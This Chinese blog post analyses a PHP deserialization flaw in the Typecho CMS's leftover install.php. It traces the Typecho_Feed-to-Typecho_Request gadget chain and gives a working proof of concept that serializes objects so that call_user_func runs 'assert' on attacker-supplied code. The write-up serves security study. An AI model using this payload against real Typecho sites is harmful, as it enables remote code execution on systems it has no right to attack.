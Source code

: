 ```yaml
---
layout:     post
title:      Typecho反序列化分析
subtitle:   
date:       2020-04-06
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - php安全
            
---
```



php的反序列化我觉得要比Java的简单的多，很大程度上我觉得源自于php语言的易用性。php反序列化和java本质上并无二异，但是在利用上来说，php基本要依靠魔法函数。php的众多魔法函数基本在CTF中反复被使用和考察。之前一直在分析java的调用链和利用过程，typecho这个问题是一个非常典型的反序列化案例，值得学习，之前我只是简单的更新到了github上的知识清单中，今天重新调试了一下，记录一下，以便后续回味起来，感慨万千！

利用点在install.php文件，cms安装完毕之后没有主动删除install.php文件。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-01.jpg)

反序列化之后是被赋值成 config变量，那我们可以精心构造一个 config变量。然后下面执行了 config['adapter']。那如果 config['adapter']是一个对象的话，这里会隐式调用该对象的_tostring方法。

于是乎将config['adapter']构造成class为Typecho_Feed的对象。

Feed.php文件中 class Typecho_Feed 中的_tostring方法如下。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-02.jpg)
这里使用了item['title']，会隐式调用变量item的_get函数，而item是Typecho_Feed的一个属性，所以我们让这个item为class为Typecho_Request的对象。

Request.php class Typecho_Request的_get方法。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-03.jpg)

这里的_get方法会调用get方法，继续调用_applyFilter方法。

![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-04.jpg)

会执行call_user_func(filter,value)
目前的函数都在Typecho_Request类中，于是我们可以构造自己的_filter变量和param变量，后者实际上是我们的value变量。

POC

```
class Typecho_Feed
{
    const RSS1 = 'RSS 1.0';
    const RSS2 = 'RSS 2.0';
    const ATOM1 = 'ATOM 1.0';
    const DATE_RFC822 = 'r';
    const DATE_W3CDTF = 'c';
    const EOL = "\n";
    private $_type;
    private $_items;

    public function __construct(){
        $this->_type = $this::RSS2;
        $this->_items[0] = array(
            'title' => '1',
            'link' => '1',
            'date' => 1508895132,
            'category' => array(new Typecho_Request()),
            'author' => new Typecho_Request(),
        );
    }
}

class Typecho_Request
{
    private $_params = array();
    private $_filter = array();

    public function __construct(){
        $this->_params['screenName'] = 'phpinfo()';
        $this->_filter[0] = 'assert';
    }
}

$exp = array(
    'adapter' => new Typecho_Feed(),
    'prefix' => 'typecho_'
);

echo base64_encode(serialize($exp));

```

最后debug一下，方能更加清晰的理解这个过程。
实际测试的时候，发现要满足finish变量和referer的设置。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-05.jpg)

看一下漏洞触发点的变量。config变量是一个数组，第一个元素是Typecho_Feed对象，满足我们上面说的。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-06.jpg)

由于执行了config['adapter']，会执行config['adapter']->_tostring方法。
tostring方法中执行了item['author'],会执行item的_get方法。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-07.jpg)
get方法也是调用本地_applyFilter()
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-08.jpg)

![](http://tiaotiaolong2.cn-bj.ufileos.com/blog36-09.jpg)

总结：
Typecho这个调用过程是php中非常典型的，希望可以自己动手调试一下，实际感受一下。纸上得来终觉浅，绝知此事要躬行！








